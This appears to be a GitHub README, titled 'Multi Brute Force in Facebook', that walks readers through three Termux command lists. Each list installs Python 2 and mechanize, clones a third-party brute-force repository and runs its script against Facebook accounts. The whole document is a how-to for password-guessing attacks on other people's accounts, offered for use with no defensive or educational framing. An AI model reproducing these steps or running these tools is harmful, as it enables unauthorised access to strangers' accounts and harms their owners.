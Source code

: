<!-- Multi Brute Force in Facebook -->

So Let's Start....  
Step By Step  
First of All Download Termux from Google Play and Install it  After installing just give these commands to Termux  
And Run one by one  

![PicsArt_10-25-08 29 55](https://user-images.githubusercontent.com/75029023/111865355-9061ca80-89a1-11eb-91b9-6c5f35e01cfe.png)

# COMMAND LIST 1 
```
$ apt update && apt upgrade  
```
```
$ pkg install python2 
```
```
$ pkg install git  
```
```
$ pip2 install mechanize  
```
```
$ git clone https://github.com/pirmansx/mbf 
``` 
```
$ cd mbf 
```
```
$ python2 MBF.py  
```

# COMMAND LIST 2  
```
$ pkg update 
```
```
$ pkg upgrade 
```
```
$ pkg install python2  
```
```
$ pkg install perl 
```
```
$ pkg install curl 
```
```
$ pkg install mechanize 
```
```
$ pip2 install request
```
```
$ git clone https://github.com/Senitopeng/fbbrute 
```
```
$ cd fbbrute 
```
```
$ python2 fbbrute.py  
```

# COMMAND LIST 3 
```
$ apt update && apt upgrade 
```
```
$ pkg install pip 
```
```
$ pkg install python 
```
```
$ pkg install python2  
```
```
$ pip2 install mechanize 
```
```
$ pkg install git 
```
```
$ git clone https://github.com/hnov7/mbf 
```
```
$ cd mbf 
```
```
$ ls 
```
```
$ python2 mbf.py 
```
```
$ 1 
```
```
$ y
```

![44804662_315681345917191_1671247044175462400_o](https://user-images.githubusercontent.com/75029023/111865398-b4251080-89a1-11eb-802a-d00f8e6ed33c.jpg)


